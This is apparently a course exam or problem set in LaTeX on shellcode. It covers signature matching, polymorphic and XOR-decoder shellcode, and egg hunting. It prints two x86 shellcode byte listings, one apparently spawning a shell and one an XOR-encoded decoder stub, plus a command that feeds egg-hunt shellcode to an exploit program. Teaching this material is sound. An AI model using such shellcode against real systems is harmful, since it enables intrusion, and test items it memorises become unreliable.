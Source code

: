 \documentclass{article}[9pt]
\begin{document}
\begin{enumerate}
\item (5 points) Does the shell code below match either (or both) of the signature schemes from the previous questions? 

\begin{verbatim}
8048060: 68 80 90 90 90  push 0x90909080
8048065: 68 e3 b0 0b cd  push 0xcd0bb0e3
804806a: 68 2f 62 69 89  push 0x8969622f
804806f: 68 73 68 68 2f  push 0x2f686873
8048074: 68 50 68 6e 2f  push 0x2f6e6850
8048079: 68 31 c9 f7 e1  push 0xe1f7c931
804807e: ff d4           call esp
\end{verbatim}

\item (5 points) What is polymorphic shell code? How does it relate to the shortcomings of the signature matching scheme from before?

\item (5 points) What is decode shell code? Would decoder shell code be immune from signature matching schemes?

\item Consider the following decode based shell code

\begin{verbatim}
8048060: 68 6f 2e 3d 4e     push 0x4e3d2e6f
8048065: 68 0c 0e a6 13     push 0x13a60e0c
804806a: 68 c0 dc c4 57     push 0x57c4dcc0
804806f: 68 9c d6 c5 f1     push 0xf1c5d69c
8048074: 68 be d6 c3 f1     push 0xf1c3d6be
8048079: 68 de 77 5a 3f     push 0x3f5a77de
804807e: 31 c9              xor ecx,ecx
8048080: 8b 04 0c           mov eax,DWORD PTR [esp+ecx*1]
8048083: 35 ef be ad de     xor eax,0xdeadbeef
8048088: 89 04 0c           mov DWORD PTR [esp+ecx*1],eax
804808b: 80 c1 04           add cl,0x4
804808e: 80 f9 14           cmp cl,0x14
8048091: 7e ed              jle 8048080 <_start+0x20>
8048093: ff e4              jmp esp
\end{verbatim}

\begin{enumerate}
\item (5 points) What is the decode key? Explain how you know this.

\item (5 points) Why is the comparison (\texttt{cmp}) comparing to 0x14 for loop exit?

\item (5 points) Explain the last instruction's relevance \texttt{jmp esp}.
\end{enumerate}

\item (5 points) In egg-hunt shell code, why should the egg appear twice?

\item (5 points) Why do we use \texttt{access()} system call in egghunt shell code?

\item (5 points) In the example below, why does the shell code being hunted for get loaded into memory?

\begin{verbatim}
./dummy_exploit $(printf $(./hexify.sh egg_hunt)) $(printf $(./hexify.sh huntable_shell))
\end{verbatim}
\end{enumerate}
\end{document}

